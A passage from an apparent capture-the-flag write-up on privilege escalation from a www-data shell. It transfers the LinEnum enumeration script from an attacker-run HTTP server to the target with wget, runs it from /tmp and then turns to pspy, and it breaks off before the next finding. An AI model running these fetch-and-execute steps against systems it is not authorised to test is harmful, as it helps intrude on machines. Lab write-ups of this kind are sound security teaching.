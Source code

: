 We’re running as www-data, so we don’t have rights to read the file. We need to escalate our user privileges.

## Privilege Escalation <a id="31c3"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Only one thing stands out in the output.

![](../images/max/1126/1*a66UrLJZtw7xOjPz30diJg.png)

In our nmap scan, port 22 was not reported to be open, however, the LinEnum script reports it as listening on localhost. I’m not sure what to do with this piece of information but I’ll keep it at the back of my mind in case I don’t find any other way to escalate privileges.

Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```text
https://github.com/DominicBreuker/pspy
```

Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.
